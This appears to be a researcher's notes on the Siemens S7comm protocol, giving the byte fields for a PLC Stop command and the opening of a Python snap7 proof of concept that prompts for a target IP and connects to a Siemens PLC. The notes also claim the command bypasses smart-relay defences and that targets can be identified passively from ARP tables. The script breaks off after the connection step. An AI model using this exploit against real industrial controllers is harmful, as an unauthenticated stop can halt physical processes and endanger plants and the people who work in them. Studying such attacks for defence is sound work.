 	- 0x29 - **PLC Stop:** similar to PLC Control, but with no parameter in the message and routine is always set to ``P_PROGRAM``. 
		- Unknown why this gets its own function code instead of just using 0x28.
		- This is our primary focus for a PoC exploit.


>[!example]
>With this knowledge, to send a **PLC Stop** command the key takeaways are:
>
>**Protocol ID:** ``0x32`` | S7COMM
>**Message Type:**  ``0x01`` | Job Request
>**Function Code:** ``0x29`` | PLC Stop
>**PI Service:** ``0x50 0x5f 0x50 0x52 0x4f 0x47 0x52 0x41 0x4d`` | P_PROGRAM

The below image is a Wireshark capture displaying the above **PLC Stop** example.

- It is also worth noting that the destination MAC gives away that the target is a Siemens device.  This means that an attacker in theory could passively determine a target PLC purely from an ARP table; no active scanning required.

![[Pasted image 20231024123847.png]]


### Siemens Emergency Stop PoC
---

The **Siemens Emergency Stop PoC** utilizes the ``snap7`` Python library to send an unauthenticated shut down to a reachable Siemens PLC.  A common defense in ICS networks is smart relays -- which normally block potentially dangerous input to PLCs.  However, this emergency stop *should* bypass the relays due to not inherently being "dangerous".

The following PoC has only been tested on a Siemens S400.  Based on some unofficial documentation found using OSINT, the following table *could* correlate the code to other models.

| Siemens Model | Connection Parameters |
| --- | --- |
| S400 | ``(ip,0,0,port)`` |
| S200 | ``(ip,0,1,port)`` |
| S300 | ``(ip,0,2,port)`` |


**Install Dependencies:**

```python
pip install python-snap7
```


**Proof-of-Concept:**

```python
import snap7
import sys

### Siemens Emergency Stop PoC (tested on an S400) ###
# Create a local test server with: "python -m snap7.server --port 102"

# Input Target PLC Data
print("[+] Input Siemens PLC information")
ip = input(" o  Target IP: ")
port = input(" o  Target Port (default: 102): ")

# Validate Connection
print("[+] Connecting to target PLC (" + ip + ") on port '" + str(port) + "'...")
try:
  client = snap7.client.Client()
  client.connect(ip,0,0,int(port)) # Connect to S400
  client.wait_as_completion(5000)
```